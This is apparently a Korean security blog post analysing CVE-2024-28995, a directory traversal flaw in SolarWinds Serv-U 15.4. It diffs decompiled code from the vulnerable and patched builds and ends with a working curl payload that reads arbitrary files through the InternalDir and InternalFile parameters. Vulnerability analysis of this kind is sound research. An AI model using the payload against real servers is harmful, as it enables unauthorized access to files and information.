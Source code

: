 ```yaml
---
title: "[하루한줄] CVE-2024-28995: SolarWinds사 제품들의 Directory Traversal 취약점으로 인한 Information Leak"
author: j0ker
tags: [CVE-2024-28995, SolarWinds, Path Traversal, Information Disclosure, j0ker]
categories: [1day1line]
date: 2024-06-15 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://attackerkb.com/topics/2k7UrkHyl3/cve-2024-28995/rapid7-analysis#/

## Target

- Serv-U FTP Server 15.4
- Serv-U Gateway 15.4
- Serv-U MFT Server 15.4

## Explain

취약점이 존재하는 버전인  `15.4.2.126` 과 핫픽스 버전인 `15.4.2.157`의 `Serv-U.dll`을 확인해보면 다음과 같이 코드에 체크하는 로직 하나가 추가된 것을 확인할 수 있습니다.

```jsx
  else
  {
    CSUString::MakeDirSeparator((CSUString *)&v35); // replace '/' characters with '\' character
    if ( (unsigned int)sub_1801A6A18(&v35, L"\\..\\", 0LL) == -1 ) // CString::Find
      CSUString::BuildLocalPath((CSUString *)&v35, qword_18046D5F8);
    else
      ATL::CSimpleStringT<wchar_t,1>::Empty(&v36);
  }
```

먼저 경로를 받으면 `/`를 `\`로 바꾸고 `\\..\\`가 존재하는 지 여부를 확인합니다. 이를 통해 Path Traversal 취약점이 존재했고 `/`를 사용해야 한다는 것을 추측해볼 수 있습니다.

패치된 함수들이 사용되는 곳들을 확인해보면 아래와 같은 코드를 확인할 수 있습니다.

```jsx
      get_request_parameter((__int64)v51, (QAnimationDriver *)v55, (__int64)L"InternalDir");
      get_request_parameter((__int64)v51, (QAnimationDriver *)&v42, (__int64)L"InternalFile");
      v14 = vulnerable_path_traversal_function((CSUString *)&v36, v56, v43, a1);
```

InternalDir과 InternalFile 파라미터를 사용할 때 해당 함수를 사용하는 것을 확인할 수 있습니다. 

지금까지 확인한 내용을 토대로 아래와 같이 페이로드를 구성하면 임의의 파일을 읽어올 수 있습니다.

```jsx
curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../../../ProgramData/RhinoSoft/Serv-U/^&InternalFile=Serv-U-StartupLog.txt
```